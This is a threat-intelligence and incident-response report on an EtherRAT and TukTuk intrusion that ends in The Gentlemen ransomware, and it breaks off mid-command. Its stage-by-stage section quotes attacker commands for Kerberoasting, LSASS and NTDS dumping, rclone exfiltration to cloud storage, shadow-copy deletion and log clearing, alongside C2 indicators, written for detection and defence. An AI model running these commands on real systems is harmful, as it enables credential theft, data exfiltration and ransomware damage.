

# EtherRAT + TukTuk → The Gentlemen Ransomware — blockchain C2 meets AI-generated framework in an enterprise intrusion

## TL;DR

The DFIR Report's Flash Alert TB40048 (11 May 2026) documents an April intrusion that closes a loop the industry had been watching for five months: the **EtherRAT** implant Sysdig surfaced in December 2025 (Linux, CVE-2025-55182 React2Shell, DPRK-linked) and Atos saw ported to Windows in March 2026 (SEO-poisoning plus 44 GitHub facades spoofing sysadmin tools) is now observed **co-deployed with a brand-new framework, TukTuk**, which according to Evangelos G's parallel analysis is **AI-generated**. The operator behind this campaign is e-crime — **The Gentlemen RaaS** affiliate — using EtherRAT as commodity initial access and TukTuk as a multi-transport SaaS-abusing backbone before installing **GoTo Resolve** for lateral persistence, dumping LSASS and NTDS via NetExec, exfiltrating to **Wasabi** with Rclone, and finally pushing the ransomware via **a malicious GPO over SYSVOL/NETLOGON** that detonates domain-wide in minutes. Dwell time around 3 days from initial MSI execution to ransomware detonation. The case matters because it shows three layers of modern tradecraft converging into one operation: blockchain-resolved C2 (Ethereum smart contracts + Arweave dead drops), SaaS-abusing C2 (ClickHouse, Supabase, Ably, Dropbox, GitHub Issues), and AI-generated payloads that propagate through DLL side-loading under signed userland binaries (Greenshot, SyncTrayzor, DocFX, Cake).

## Attribution and confidence

| Vendor | Cluster label | Confidence | Notes |
|---|---|---|---|
| The DFIR Report | The Gentlemen RaaS (operator) | high | Tactics, GPO/SYSVOL deployment, RMM tradecraft are consistent with prior Gentlemen intrusions |
| Sysdig TRT (Dec-2025) | DPRK-nexus, encrypted-loader pattern overlaps BeaverTail | medium | Sysdig is explicit that techniques are shared across multiple DPRK clusters; not a single-actor attribution |
| Google Threat Intelligence Group (GTIG) | UNC5342 | medium | GTIG attributes BeaverTail and blockchain-based C2 to UNC5342 (DPRK); EtherRAT shares the loader pattern |
| Atos TRC (Mar-2026) | Lazarus Group | medium-low | Atos states overlaps with Contagious Interview tooling but doesn't claim direct ownership |
| Evangelos G (May-2026) | TukTuk framework — AI-generated | medium | Style anchors: symmetrical multi-transport bus, inconsistent naming, redundant try/catch, fully wired but unused Arweave dead-drop |

**Operational reading.** The right way to interpret this intrusion is **operator vs. tooling**. The operator is e-crime (Gentlemen affiliate) and they are using EtherRAT as commodity initial-access tooling — they did not build it, they bought or copied it. EtherRAT itself has DPRK fingerprints, but those fingerprints belong to its lineage, not this specific intrusion. Attribution stops at the operational layer: **e-crime intrusion, ransomware impact, blockchain-resolved infrastructure inherited from upstream DPRK research**.

**Repo genealogy.** This case continues the Gentlemen track from Day 1 of the repo (`days/2026-04-28_TheGentlemen-SystemBC/`). Differences with Day 1: that intrusion used SystemBC + Brute Ratel; this one uses EtherRAT + TukTuk + GoTo Resolve. Same operator family, evolved toolchain. The repo also touches the React2Shell upstream vector via `days/2026-04-26_clase_bissa_scanner_react2shell.md` in the student-side history (pre-repo, not in `days/`).

## Kill chain — summary table

| Stage | MITRE | Detail |
|---|---|---|
| Initial Access | T1566.002, T1204.002 | User downloads and executes `RAMMap.msi` from a GitHub facade (Atos mapped 44 of these) impersonating Sysinternals tools |
| Execution | T1059.007, T1106, T1218.007 | `msiexec /V` → `cmd.exe /c start /min "" "MVnVmUYj.cmd"` → `curl` pulls Node.js portable from nodejs.org → `conhost --headless node.exe <random>.cfg` |
| Defense Evasion | T1027, T1140, T1218.007 | AES-256-CBC layered config, `AsyncFunction` constructor as RCE primitive, `/api/reobf/` runtime self-overwrite, signed binary abuse |
| Persistence | T1547.001, T1543.003, T1574.002 | Run key `AppResolver`, GoTo Resolve service install for lateral persistence, TukTuk DLL side-loading under Greenshot / SyncTrayzor / DocFX / Cake |
| Privilege Escalation | T1078.002, T1558.003 | Kerberoasting bursts, compromised service account credentials reused on DCs |
| Credential Access | T1003.001, T1003.003, T1558.003, T1555 | LSASS dump via `comsvcs.dll #+0000` ordinal, NTDS via `nxc smb --ntds`, `nxc -M lsassy` remote LSASS dumps |
| Discovery | T1087.002, T1018, T1482, T1057, T1518.001 | Automated PowerShell recon + manual `whoami /all`, `net group "Domain Admins"`, `nltest`, Softperfect Network Scanner `C:\temp\netscan.exe` |
| Lateral Movement | T1021.001, T1021.002, T1021.006, T1570 | RDP, SMB, WinRM, NetExec (`nxc`) for lateral discovery and execution |
| C2 | T1102.002, T1568.002, T1572, T1219 | EtherRAT resolves via Ethereum smart contracts (`1rpc.io`); TukTuk uses ClickHouse / Supabase / Ably / Dropbox / GitHub Issues / Arweave dead drop; TryCloudflare tunnels for ephemeral C2 endpoints; GoTo Resolve RMM for hands-on access |
| Exfiltration | T1567.002 | Rclone copy to Wasabi cloud storage with aggressive multi-thread tuning |
| Impact | T1486, T1490, T1070.001, T1484.001 | Defender disabled, AV exclusions added, shadow copies deleted, event logs cleared, **malicious GPO drops staged ransomware to SYSVOL/NETLOGON → scheduled task fan-out across the domain** |



The diagram has two vertical lanes (victim host on the left, attacker/C2 cluster on the right) and walks the chain from MSI execution down to ransomware GPO deployment. Stage 4 (EtherRAT implant) talks bidirectionally to the Ethereum smart-contract cluster on the right; stage 8 (TukTuk) talks bidirectionally to the SaaS multi-transport cluster. The detection-anchors box at the bottom maps each anchor to the corresponding file under `sigma/`, `kql/`, `yara/`, and `suricata/`, plus the three PEAK hunts under `hunts/`.

## Stage-by-stage detail

### Initial Access

The victim user downloads a malicious MSI installer from a GitHub repository that impersonates a Sysinternals tool — `RAMMap.msi` in this case. Atos mapped 44 such facades active between December 2025 and April 2026, each spoofing a different administrative or developer utility (Process Explorer, ProcMon, PsExec, Autoruns, etc.), each with a convincing README and SEO poisoning to rank in search results for "download `<tool>` Windows".

```
RAMMap.msi
MD5:    73ce2438d4ed475e03727b7b000d2794
SHA1:   3d5ee8429ef00824c0351cba507dfeb92b54f83b
SHA256: d9487fdc097f770e5661f9e5dee130068cb179d33716abff1a21c8cb901f25a6
```

MITRE: `T1566.002` (Spearphishing Link / Web hosting facade), `T1204.002` (User Execution: Malicious File).

### Execution

The MSI executes and immediately spawns a CMD dropper:

```
C:\Windows\System32\msiexec.exe /V
 └─ cmd.exe /c start /min "" "MVnVmUYj.cmd"
```

The CMD downloads a portable Node.js runtime from the official `nodejs.org/dist` distribution:

```powershell
curl -sLo "C:\Users\<user>\AppData\Local\Temp\9gY0LJMyXW.zip" ^
     "https://nodejs.org/dist/v18.20.5/node-v18.20.5-win-x64.zip"
```

The implant does not ship a runtime — it pulls a **legitimately signed `node.exe`** from `nodejs.org`. Proxies almost never block `nodejs.org`, and signature-based runtime baselining cannot flag a real Node.js binary. The malicious code travels as data (a `.cfg` blob) interpreted at runtime by this trusted binary.

```
MVnVmUYj.cmd  SHA256: 8c2665adf8bfab65463f2a9bd1b7bb0231de3f5c1e6a2e51479e44aaac2e7bf0
A7Pnj975bl.cfg SHA256: 4142d5efd4ea2abab77f2f0a917610e2ff976bf9e19d7ad1e9156eccdc5412db
v72HYLU3OpRBznc.ini SHA256: 2d4b4bb18b8445e49eeda571982874403befcecf78266e3d405f6529d98bee46
```

MITRE: `T1059.007` (Command and Scripting Interpreter: JavaScript), `T1059.001` (PowerShell — used later for recon), `T1106` (Native API), `T1218.007` (System Binary Proxy Execution: Msiexec).

### Defense Evasion

EtherRAT's execution engine uses the `AsyncFunction` constructor instead of `eval()`:

```javascript
// EtherRAT execution sink (reconstructed from Atos analysis)
const AsyncFunction = (async function(){}).constructor;
const cfg = await fetch_from_blockchain(ethereum_contract);
const decoded = aes256cbc_decrypt(cfg, key);
const handler = new AsyncFunction('ctx', decoded);
await handler({ os, net, crypto, fs });   // arbitrary RCE primitive
```

After the first C2 contact the implant queries `/api/reobf/` and **overwrites its own JavaScript source** with the server response. This means the on-disk `.cfg` is no longer representative of what runs in memory — only a RAM dump captures the live implant.

The user-visible process is `conhost.exe --headless`, which spawns `node.exe` with the `.cfg` argument. No window appears at login.

MITRE: `T1027` (Obfuscated Files or Information), `T1140` (Deobfuscate/Decode Files or Information), `T1218.007`.

### Persistence

Run key with a plausible value name (`AppResolver`) targeting `conhost --headless`:

```cmd
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run ^
  /v AppResolver ^
  /d "conhost --headless \"C:\Users\<user>\AppData\Local\P2RsupmqXnmx\gksVMg\node.exe\" ^
       \"C:\Users\<user>\AppData\Local\P2RsupmqXnmx\A7Pnj975bl.cfg\"" /f
```

Forensic anchors: value name is plausible (not random), path is `%LOCALAPPDATA%\<random_8>\<random_6>\node.exe` (breaks any "node.exe under Program Files" baseline), and `conhost --headless` avoids any visible window for the user.

Once lateral movement starts, the operator installs **GoTo Resolve** as a service on key hosts (DCs, file servers, app servers):

```
Service Name:     GoToResolve_<random>
Service File:     "C:\Program Files (x86)\GoTo Resolve Unattended\<id>\GoToResolveProcessChecker.exe"
                  -Service -WorkFolder "C:\Program Files (x86)\GoTo Resolve Unattended\<id>" -ApplicationType "4"
Service Type:     user mode service
```

This is the 2026 RMM-as-backdoor pattern: the operator does not install custom persistence on those hosts; they install a real RMM tool they can return to whenever they want. The GoTo Resolve installer dropped here:

```
smokymo.msi
MD5:    b188fbc6ff5557767e73e4c883a553a3
SHA1:   aa9218994798ae31a19d3e7e39cfac2e2ee55840
SHA256: 1795eacd2c58894ccdd6be8854fe6456c3b069a3a873432343b57b475b256aee
```

TukTuk persistence relies on **DLL side-loading under signed binaries** copied to non-install paths:

| Host binary (signed, legit) | Side-loaded DLL | Hash |
|---|---|---|
| `Greenshot.exe` | `log4net.dll` | SHA256 `19021e53b9929fdf4b7d0e0707434d56bb73c1a9b7403c8837b44d1c417198dc` |
| `SyncTrayzor.exe` | `log4net.dll` (same DLL, multiple homes) | — |
| `docfx.exe` | `log4net.dll` | — |
| `Cake.exe` | `log4net.dll` | — |

MITRE: `T1547.001` (Registry Run Keys), `T1543.003` (Windows Service), `T1574.002` (DLL Side-Loading).

### Privilege Escalation

Kerberoasting harvest plus reuse of service-account credentials with privileged group memberships. The operator targets accounts that hold `SeBackupPrivilege`, `SeRestorePrivilege`, or membership in legacy service-desk groups that drift toward Domain Admin equivalence.

```powershell
# Standard Kerberoasting — SPN harvest + offline crack
Add-Type -AssemblyName System.IdentityModel
$spns = (Get-ADUser -Filter {ServicePrincipalName -ne $null} `
                    -Properties ServicePrincipalName |
         Select-Object -ExpandProperty ServicePrincipalName)
foreach($spn in $spns) {
    New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken `
               -ArgumentList $spn | Out-Null
}
# klist export, then Rubeus + hashcat -m 13100 offline
```

MITRE: `T1078.002` (Domain Accounts), `T1558.003` (Kerberoasting).

### Credential Access

LSASS minidump via the canonical `comsvcs.dll` MiniDumpW ordinal:

```cmd
CmD.eXe /Q /c for /f "tokens=1,2 delims= " ^%A in ^
  ('"tasklist /fi "Imagename eq lsass.exe" | find "lsass""') do ^
  rundll32.exe C:\windows\System32\comsvcs.dll, #+0000^24 ^%B \Windows\Temp\im4.txt full
```

Inconsistent casing (`CmD.eXe`) is anti-signature evasion against rules that match on exact case. NTDS extraction and remote LSASS dumps via NetExec (`nxc`):

```bash
nxc smb <DC_IP> -u <user> -p <pwd> --ntds
nxc smb <range> -u 1.txt -p 2.txt --no-bruteforce --continue-on-success
nxc smb <range> -u <user> -p <pwd> -M lsassy
```

The `-M lsassy` module orchestrates remote LSASS dumps and processes them offline with pypykatz. NetExec is now the dominant CME successor and is the de facto tool for lateral movement and credential dumping in mature e-crime intrusions in 2025-2026.

MITRE: `T1003.001` (LSASS Memory), `T1003.003` (NTDS), `T1558.003`, `T1555` (Credentials from Password Stores).

### Discovery

Automated PowerShell recon chained via cmd:

```powershell
powershell -NoProfile -NonInteractive -WindowStyle Hidden -Command ^
   "[System.Globalization.CultureInfo]::InstalledUICulture.Name"
powershell -NoProfile -NonInteractive -WindowStyle Hidden -Command ^
   "try { (Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct -EA Stop).displayName -join ', ' } catch { 'none' }"
powershell -NoProfile -NonInteractive -WindowStyle Hidden -Command ^
   "(Get-WmiObject Win32_ComputerSystem).Domain"
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion" /v ProductName
reg query "HKLM\SOFTWARE\Microsoft\Cryptography" /v MachineGuid
```

The `MachineGuid` is used as a stable host fingerprint for victim tracking on the operator panel.

Manual hands-on AD enumeration:

```cmd
whoami /all
net group "Domain Admins" /domain
nltest /domain_trusts /all_trusts
nltest /dclist:<DOMAIN>
net group "Enterprise Admins" /domain
```

Network discovery via Softperfect Network Scanner from the canonical `C:\temp\netscan.exe` path used by many e-crime operators.

MITRE: `T1087.002`, `T1018`, `T1482`, `T1083`, `T1057`, `T1518.001`.

### Lateral Movement

RDP, SMB, WinRM, and NetExec for lateral discovery and execution. GoTo Resolve is dropped laterally so the operator has resilient remote access without re-phishing. TukTuk follows behind as the persistent implant on key hosts, side-loaded under Greenshot/SyncTrayzor/DocFX/Cake.

MITRE: `T1021.001` (RDP), `T1021.002` (SMB/Admin Shares), `T1021.006` (WinRM), `T1570` (Lateral Tool Transfer).

### Command and Control

Three layers stacked:

1. **EtherRAT** resolves C2 via **Ethereum smart contracts** queried through `1rpc.io`:

   ```
   0xdf0b529043ef7a2bb9111bad26de624a326bacf9
   0x5953f27F044779a3AFCd2BF56a4B712583Dd2E4e
   ```

   The contract returns a C2 base URL. The operator pushes **decoy domains alongside the legitimate one** to confuse analysis.

2. **Active C2 endpoints** are **TryCloudflare tunnels** rotated every few hours:

   ```
   witch-skins-lip-coal.trycloudflare.com
   fields-pct-easier-vancouver.trycloudflare.com
   howto-tar-naturals-coordination.trycloudflare.com
   workshop-lighting-protective-customs.trycloudflare.com
   afford-effect-construct-tricks.trycloudflare.com
   rapids-lil-lending-charleston.trycloudflare.com
   when-architectural-cdna-faster.trycloudflare.com
   mode-exit-legendary-trusted.trycloudflare.com
   seasonal-estimation-heating-necessarily.trycloudflare.com
   entered-medications-motherboard-advanced.trycloudflare.com
   walt-messaging-affairs-occurring.trycloudflare.com
   ```

3. **TukTuk** uses a multi-transport pluggable bus:

   | Primary | Secondary fallback |
   |---|---|
   | ClickHouse Cloud `k135neflez.westus3.azure.clickhouse.cloud` | GitHub Issues |
   | Supabase `vefbdzzuaadnascpeqcn.supabase.co` | Dropbox API |
   |  | Ably real-time messaging |
   |  | HTTP fallback `borjumaniya.store` |

   Plus an **Arweave dead-drop resolver** that fetches an encrypted config blob containing the credential pool for all transports. Observed Arweave Drive-Id: `a6278417-39f4-407e-90bf-599f74726e66`. Gateways: `arweave.net`, `g8way.io`, `goldsky.arweave.net`.

GoTo Resolve provides hands-on RMM access blended into legitimate administrative traffic — operators rely on customers' tolerance for that traffic to hide.

MITRE: `T1102.002` (Bidirectional Communication — Web Service), `T1568.002` (Domain Generation Algorithms / dead-drop resolvers — used for blockchain-resolved C2), `T1572` (Protocol Tunneling — TryCloudflare), `T1219` (Remote Access Software — GoTo Resolve).

### Exfiltration

Rclone copies to Wasabi cloud storage with aggressive multi-thread tuning:

```cmd
rclone.exe copy "Z:\<share>\<folders>" wasabi:"/<bucket>/<path>" ^
  --max-age 2y --exclude "AppData/**" --copy-links ^
  --transfers=16 --checkers=128 --fast-list --progress --ignore-existing ^
  --cache-workers=32 --multi-thread-streams=32 --multi-thread-chunk-size=512M ^
  --multi-thread-cutoff=128M --max-backlog=20000 --stats=5s ^
  --use-mmap --tpslimit=0 --bwlimit=off
```

`--max-age 2y` filters out noise; `--exclude "AppData/**"` strips caches; `--transfers=16 --multi-thread-streams=32` maximises throughput; `--tpslimit=0 --bwlimit=off` removes rate limiting. The Wasabi bucket is visible in egress NetFlow as a burst to `*.wasabisys.com`.

MITRE: `T1567.002` (Exfiltration to Cloud Storage).

### Impact

Three days after first foothold, the operator pivots to impact:

1. Stop running VMs (to encrypt their VHDX/VMDK files without lock contention).
2. Disable Microsoft Defender real-time protection.
3. Add AV exclusions for the ransomware binary path.
4. `vssadmin delete shadows /all /quiet`.
5. `wevtutil cl Security`, `wevtutil cl System`, `wevtutil cl Application`.
6. Attempt forensic-artifact removal (Prefetch, USN journal, `$LogFile`).
7. **Create a malicious GPO** that schedules a task to execute the ransomware binary staged in `\\<dc>\SYSVOL\<domain>\NETLOGON\<name>.exe`.
8. The GPO replicates to all DCs → every domain-joined endpoint pulls and executes the scheduled task → **domain-wide encryption in minutes**.

The GPO+SYSVOL pattern is the fastest way to detonate ransomware across an Active Directory environment because the replication is native and there is no per-host SMB lateral. Touch one DC, the rest follow.

MITRE: `T1486` (Data Encrypted for Impact), `T1490` (Inhibit System Recovery), `T1070.001` (Indicator Removal: Clear Windows Event Logs), `T1484.001` (Group Policy Modification).

## RE notes

| Component | SHA256 | Lang | Packer | Notes |
|---|---|---|---|---|
| `RAMMap.msi` | `d9487fdc097f770e5661f9e5dee130068cb179d33716abff1a21c8cb901f25a6` | MSI / WiX | None | Spoofed RAMMap; CustomAction launches `MVnVmUYj.cmd` |
| `MVnVmUYj.cmd` | `8c2665adf8bfab65463f2a9bd1b7bb0231de3f5c1e6a2e51479e44aaac2e7bf0` | CMD / JS | None | Stage-1 dropper; downloads `node.exe` portable plus `.cfg` |
| `A7Pnj975bl.cfg` | `4142d5efd4ea2abab77f2f0a917610e2ff976bf9e19d7ad1e9156eccdc5412db` | JS obfuscated | AES-256-CBC layered | Initial EtherRAT payload; replaced via `/api/reobf/` after first C2 |
| `v72HYLU3OpRBznc.ini` | `2d4b4bb18b8445e49eeda571982874403befcecf78266e3d405f6529d98bee46` | Binary state | None | EtherRAT runtime state blob |
| `log4net.dll` | `19021e53b9929fdf4b7d0e0707434d56bb73c1a9b7403c8837b44d1c417198dc` | C# / .NET | None | TukTuk side-loaded under Greenshot/SyncTrayzor/DocFX/Cake; impersonates real log4net |
| `smokymo.msi` | `1795eacd2c58894ccdd6be8854fe6456c3b069a3a873432343b57b475b256aee` | MSI / WiX | None | GoTo Resolve installer used for lateral persistence |

### EtherRAT internals (Sysdig + Atos reconstruction)

- **Layered AES-256-CBC**: outer layer in `.cfg` decrypted with a hardcoded key yields a JSON manifest of module URLs; each module decrypted with a key derived from the smart-contract response.
- **EtherHiding C2 module**: ethers.js call to a smart-contract method; return value is the C2 base URL (or a comma-separated list with decoys).
- **`AsyncFunction` RCE engine**: avoids `eval` — uses `(async function(){}).constructor` which is functionally equivalent. If Node.js is started with `--disallow-code-generation-from-strings`, this construct is also blocked, but most enterprise Node deployments do not set that flag.
- **Five Linux persistence mechanisms** (original Sysdig case): systemd user service, cron, `~/.bashrc`, `/etc/profile.d/`, SUID `runuser`. The Windows port reduces this to Run key plus GoTo Resolve service since `%LOCALAPPDATA%` is always writable.
- **`/api/reobf/` self-overwrite**: implant requests fresh JavaScript from the C2 and replaces its own source at runtime. Three plausible motives: anti-RE (signature drift), forced versioning, deferred polymorphism. Operationally: **always RAM-dump before reboot**.

### TukTuk internals (Evangelos G AI-generated indicators)

- **Symmetric pluggable transports**: ClickHouse, Supabase, Ably, Dropbox, GitHub Issues implemented with **identical interfaces, identical exception types, identical retry structure** — humans rarely abstract this evenly across five transports.
- **Inconsistent naming across modules**: `c2_send_clickhouse_data()` vs. `dropboxC2Send()` vs. `SendToAbly()` — three styles in one binary suggests model prompts per module without a final linter pass.
- **Redundant exception handling**: every call wrapped in a generic `try/catch` that logs but does not discriminate by exception type. Typical AI overproduction.
- **Arweave dead drop fully wired but with no observed use**: function implemented, registered in the dispatch table, but no telemetry of activation in this case — characteristic of AI-generated code that over-specifies capabilities.

### Reverser playbook

1. Dump `node.exe` heap during implant runtime — `/api/reobf/` post-update code only exists in memory.
2. Hook `AsyncFunction` with frida → log every string compiled at runtime.
3. For TukTuk, deobfuscate with dnSpyEx (.NET), search for the literal `Drive-Id` to locate the Arweave resolver.
4. Hard-code the observed `Drive-Id` `a6278417-39f4-407e-90bf-599f74726e66` and request the Arweave gateway directly for the config blob.

## Detection strategy

### Telemetry that matters

- **Sysmon EIDs**: 1 (process create), 3 (network connect), 7 (image load), 11 (file create), 12/13 (registry), 22 (DNS), 17/18 (named pipes for lsassy).
- **Windows Security**: 4688 (process create), 4624 / 4672 (logons), 4697 / 7045 (service install — GoTo Resolve), 4769 (Kerberos TGS, Kerberoasting bursts), 5136 / 5137 / 5141 (AD object change — GPO modification).
- **Defender XDR tables**: `DeviceProcessEvents`, `DeviceFileEvents`, `DeviceNetworkEvents`, `DeviceImageLoadEvents`, `DeviceRegistryEvents`, `IdentityLogonEvents`.
- **Sentinel**: `SecurityEvent`, `SigninLogs`, custom log tables for proxy/NetFlow.
- **Network**: Suricata + ET OPEN ruleset on TryCloudflare TLS SNI, smart-chain DNS (`1rpc.io`), Arweave gateways, ClickHouse Cloud, Supabase, Wasabi cloud storage, GoTo Resolve.
- **SaaS**: Defender for Cloud Apps for ClickHouse, Supabase, Ably, Dropbox egress from hosts that do not normally use them.
- **AD/GPO**: Group Policy change auditing on SYSVOL writes (4663) and AD object changes (5136 / 5137 / 5141 on `groupPolicyContainer`).

### Detection coverage

| Engine | File | Logic |
|---|---|---|
| Sigma | [`sigma/etherrat_node_headless_appdata.yml`](./sigma/etherrat_node_headless_appdata.yml) | `node.exe` or `conhost --headless` spawning from AppData/Temp with a `.cfg` argument — EtherRAT runtime anchor |
| Sigma | [`sigma/tuktuk_sideload_signed_apps_log4net.yml`](./sigma/tuktuk_sideload_signed_apps_log4net.yml) | Side-loaded helper DLL under Greenshot/SyncTrayzor/DocFX/Cake from non-install paths |
| Sigma | [`sigma/lsass_dump_comsvcs_ordinal.yml`](./sigma/lsass_dump_comsvcs_ordinal.yml) | LSASS minidump via `comsvcs.dll #+0000` ordinal — pattern used by Gentlemen and other e-crime affiliates |
| KQL | [`kql/etherrat_staging_chain_nodejs_ethereum.kql`](./kql/etherrat_staging_chain_nodejs_ethereum.kql) | MSI/cmd downloads `nodejs.org/dist` plus egress to Ethereum RPC `1rpc.io` within 30 min |
| KQL | [`kql/tuktuk_saas_exotics_burst_atypical_host.kql`](./kql/tuktuk_saas_exotics_burst_atypical_host.kql) | Egress to ClickHouse/Supabase/Ably/1rpc/Arweave/TryCloudflare from hosts that lack a 30-day baseline |
| KQL | [`kql/gotoresolve_install_dc_plus_gpo_drop.kql`](./kql/gotoresolve_install_dc_plus_gpo_drop.kql) | GoTo Resolve install on DC/server tier plus SYSVOL/NETLOGON file creation within 24h — pre-ransomware fan-out signature |
| YARA | [`yara/tuktuk_sideload_log4net_2026.yar`](./yara/tuktuk_sideload_log4net_2026.yar) | Heuristic TukTuk log4net stub (.NET CLR magic + multi-transport bus anchors + Arweave dead-drop strings) plus exact hash anchor |
| Suricata | [`suricata/etherrat_tuktuk_c2_anchors.rules`](./suricata/etherrat_tuktuk_c2_anchors.rules) | DNS + TLS SNI anchors for `1rpc.io`, `arweave.net`, `g8way.io`, `*.trycloudflare.com`, `clickhouse.cloud`, `supabase.co`, `wasabisys.com` |

### Threat hunting hypotheses

- **H1 — Headless Node from AppData (`hunts/peak_h1_etherrat_node_headless.md`)**: any `node.exe` or `conhost --headless` running from `%LOCALAPPDATA%\<random>\` loading a `.cfg` or `.ini` and reaching out to `1rpc.io`, `arweave.net`, or `*.trycloudflare.com` within a 5-minute window is near-certain compromise.
- **H2 — Signed-userland-binary side-load from non-install paths (`hunts/peak_h2_tuktuk_dll_sideload.md`)**: Greenshot / SyncTrayzor / DocFX / Cake running from `\Users\*\AppData\` or `C:\temp\` loading `log4net.dll` (or other helper DLLs) that is not signed by the same Authenticode chain as the host binary.
- **H3 — GoTo Resolve on DC plus GPO write to SYSVOL within 24h (`hunts/peak_h3_gotoresolve_dc_plus_gpo_drop.md`)**: the lethal chain that ends in domain-wide ransomware deployment. DCs must never have third-party RMM. Detection here is the last reliable moment before encryption.

## Incident response playbook

### First 60 minutes (triage)

1. Identify the index host via the Sigma/KQL anchor that fired. Network-isolate at the switch or via EDR network containment — **do not reboot**.
2. Acquire RAM with `winpmem` or `DumpIt` before any other action — the `/api/reobf/` post-update code and TukTuk transport config only exist in memory.
3. Snapshot the host disk if it is a VM (hypervisor-level snapshot — VMware/Hyper-V/ESXi).
4. Capture volatile artifacts: `tasklist /v /svc`, `netstat -anob`, `wmic process get name,executablepath,commandline`, copy Sysmon EVTX, copy Defender ASR/EDR logs.
5. Identify blast radius: any other host with GoTo Resolve services installed? Any recent GPO modifications? Run `gpresult /h post-incident.html` from a verified-clean DC.
6. Activate Defender for Identity alerts on Kerberoasting and NTDS extraction if not already.
7. Incident manager engages ransomware playbook (legal, compliance, communications) and notifies partners (Supabase / ClickHouse / GoTo / GitHub Security as applicable).

### Artifacts to collect

| Artifact | Path | Tool | Why it matters |
|---|---|---|---|
| Sysmon EVTX | `C:\Windows\System32\winevt\Logs\Microsoft-Windows-Sysmon%4Operational.evtx` | EvtxECmd, Chainsaw | EIDs 1/3/7/11/12/13/22 cover the entire chain |
| Security EVTX | `C:\Windows\System32\winevt\Logs\Security.evtx` | EvtxECmd | 4624/4672/4688/4697/7045 — logons, process creation, service install |
| User AppData staging | `C:\Users\<user>\AppData\Local\<random_8>\<random_6>\` | dir + AXIOM | `node.exe`, `.cfg`, `.ini` EtherRAT staging payload |
| Run keys | `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` | RECmd, Registry Explorer | Value `AppResolver` with `conhost --headless` arguments |
| Prefetch | `C:\Windows\Prefetch\NODE.EXE-*.pf`, `CONHOST.EXE-*.pf`, `MSIEXEC.EXE-*.pf`, `RUNDLL32.EXE-*.pf` | PECmd | Confirms execution even when binaries were deleted |
| ShimCache + AmCache | `SYSTEM\...\AppCompatCache` + `C:\Windows\AppCompat\Programs\Amcache.hve` | AppCompatCacheParser, AmcacheParser | Past executions and PE hashes |
| RAM image | `memdump.raw` | Volatility3: `windows.malfind`, `windows.netscan`, `windows.dlllist`, `windows.cmdline` | Post-reobf EtherRAT code, in-memory TukTuk config, LSASS strings |
| SYSVOL change diff | `\\<dc>\SYSVOL\<domain>\Policies\` | Git-style diff vs. golden baseline | Detects scheduled-task injection before it fires |
| GoTo Resolve service registry | `HKLM\SYSTEM\CurrentControlSet\Services\GoToResolve_<random>` | RECmd | Detects lateral RMM installs on unauthorised hosts |
| Defender detection history | `C:\ProgramData\Microsoft\Windows Defender\Scans\History\Service\DetectionHistory\` | DefenderHistoryParser | What Defender saw before being disabled |
| Rclone config + logs | `%LOCALAPPDATA%\rclone\` plus `C:\Users\<user>\Downloads\rclone-v*` | strings, cat | Wasabi exfil destination, bucket name, throughput |

### IR queries and commands

```powershell
# Suspicious node/conhost processes
Get-Process node, conhost | Format-List Id, Path, CommandLine, Modules
Get-Process | Where-Object { $_.Path -like '*\AppData\Local\*\*node.exe' }

# Run keys
$rk = 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Run',
      'HKLM:\Software\Microsoft\Windows\CurrentVersion\Run'
foreach($k in $rk){ Get-ItemProperty $k | Format-List }

# Unexpected GoTo Resolve services
Get-Service | Where-Object Name -Like 'GoToResolve*' |
    Select-Object Name, DisplayName, StartType, Status, BinaryPathName |
    Format-Table -AutoSize

# Hash and sign every PE under C:\temp and %LOCALAPPDATA%
Get-ChildItem 'C:\temp', "$env:LOCALAPPDATA" -Include *.exe,*.dll -Recurse -EA SilentlyContinue |
    ForEach-Object {
        $hash = (Get-FileHash $_.FullName -Algorithm SHA256).Hash
        $sig  = (Get-AuthenticodeSignature $_.FullName).Status
        [PSCustomObject]@{ Path=$_.FullName; SHA256=$hash; Sig=$sig }
    } | Format-Table -AutoSize

# Recent GPO and AD object changes (last 7 days)
Get-WinEvent -FilterHashtable @{ LogName='Security'; Id=5136,5137,5141; StartTime=(Get-Date).AddDays(-7) } |
    Where-Object { $_.Message -match 'gPCFileSysPath|nTSecurityDescriptor' }
```

```bash
# Network triage on a relay box (Suricata fast.log)
grep -hE 'trycloudflare\.com|1rpc\.io|arweave\.net|g8way\.io|clickhouse\.cloud|supabase\.co|wasabisys\.com' \
